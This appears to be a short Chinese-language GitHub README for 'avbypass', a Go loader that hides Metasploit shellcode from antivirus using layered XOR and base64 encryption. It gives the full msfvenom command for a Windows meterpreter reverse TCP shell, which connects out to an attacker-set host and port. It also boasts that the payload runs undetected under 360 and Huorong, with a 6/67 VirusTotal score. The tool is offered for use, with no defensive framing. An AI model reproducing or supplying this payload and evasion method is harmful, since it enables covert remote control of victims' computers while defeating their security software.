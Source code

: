 ## avbypass

#### 使用

```
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=xxx.xxx.xxx.xxx LPORT=xxx -f raw -o payload.bin
```

使用程序生成加密的shellcode后，填入指定位置，编译执行即可。

通过xor和base64多层加密shellcode实现的go加载器bypassav，

![](C:\Users\shu1l\Desktop\新建文件夹 (2)\QQ截图20211010131838.png)

![](C:\Users\shu1l\Desktop\新建文件夹 (2)\QQ截图20211010131902.png)

实测在开启360和火绒的情况下msf正常上线

![](C:\Users\shu1l\Desktop\新建文件夹 (2)\QQ截图20211010131740.png)

virustotal结果 6/67，后续有时间会慢慢修改

![](C:\Users\shu1l\Desktop\新建文件夹 (2)\QQ截图20211010155756.png)# avbypass
